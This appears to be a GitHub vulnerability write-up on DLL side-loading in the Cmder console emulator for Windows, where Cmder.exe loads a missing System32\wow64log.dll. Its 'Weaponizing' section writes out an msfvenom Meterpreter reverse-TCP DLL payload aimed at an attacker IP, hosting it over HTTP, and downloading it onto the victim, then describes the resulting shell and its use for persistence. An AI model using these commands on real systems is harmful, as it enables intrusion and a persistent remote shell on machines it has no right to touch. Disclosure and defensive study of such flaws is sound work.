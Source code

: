 # Cmder DLL Side-Loading v1.3.25 (Full and Mini)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice console emulators on Windows. It is based on amazing software, and spiced up with the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
I couldnt agree more, it is a great application and I use it on all my Windows systems.
This repo details an issue in the Cmder application (Full and Mini) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
## Privilege Escalation
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.
